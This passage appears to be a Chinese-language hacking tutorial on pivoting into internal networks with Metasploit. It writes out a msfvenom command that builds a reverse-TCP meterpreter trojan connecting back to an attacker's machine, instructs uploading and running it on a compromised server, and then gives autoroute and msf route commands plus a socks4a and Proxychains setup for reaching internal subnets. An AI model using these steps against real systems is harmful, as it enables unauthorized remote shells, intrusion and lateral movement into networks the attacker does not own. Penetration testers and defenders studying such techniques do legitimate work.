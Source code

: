 ##### tcp代理转发
思路：通过metasploit木马反弹一个肉鸡的meterpreter shell到攻击机上，然后在meterpreter shell上设置路由，我们便可以在攻击机上直接扫描肉鸡所在的网段服务器（这里是可以跨网段扫描的）。

###### 生成msf木马
生成木马：
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
```
由于攻击机无法访问肉鸡的端口，而肉鸡可以访问攻击机的端口，因此生成一个反向的木马。

###### 反弹shell
　　攻击机运行msfconsole，使用exoloit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。
　　此时将shell_8000.elf上传到肉鸡服务器上，添加权限后运行木马将会主动连接上攻击机监听的端口，并在攻击机上获取一个meterpreter shell。

###### 设置路由
上一步获取到了一个session，这个session是攻击机与肉鸡相互连接的会话。
查看下肉鸡的网络情况：
```bash
run get_local_subnets
```
![](/upload_image/20170809/1.png)
添加路由:
```bash
run autoroute -s 192.168.16.0/24
```
查看路由：
```bash
run autoroute –p
```
![](/upload_image/20170809/2.png)
一般来说，这里设置好路由就可以了，但是有些时候会发现在meterpreter中有效果，但是在msf中失效了，因此可以在msf中再设置一次。（但前提是meterpreter会话要一直存在）将该会话放入后台，进入msf中添加路由。
查看路由：
![](/upload_image/20170809/3.png)
这里已经是添加好的结果，添加路由命令：
```bash
msf exploit(handler) > route add 192.168.16.0 255.255.255.0 12
msf exploit(handler) > route add 192.168.17.0 255.255.255.0 12
```
注意：12表示session id，由于我们需要访问17网段，因此这里也要添加17网段的路由。

说明：以上2条路由的意思，是攻击机如果要去访问17或者16网段的资源，其下一跳是session12，至于什么是下一条这里不多说了，反正就是目前攻击机可以访问内网资源了。

转发连接原理：
```bash
攻击机<-->meterpreter_shell（session）<-->肉鸡 # 这里不是端口的概念，而是路由
```

##### tcp全局代理转发
　　通过以上设置，在msf中可以访问内网资源了，但也仅限在msf中可以访问。如果想要其他工具也能使用代理，则要设置全局代理，这需要使用msf框架中的socks4a工具代理，目录：auxiliary/server/socks4a，然后配合Proxychains ，使用方法跟http代理类似。

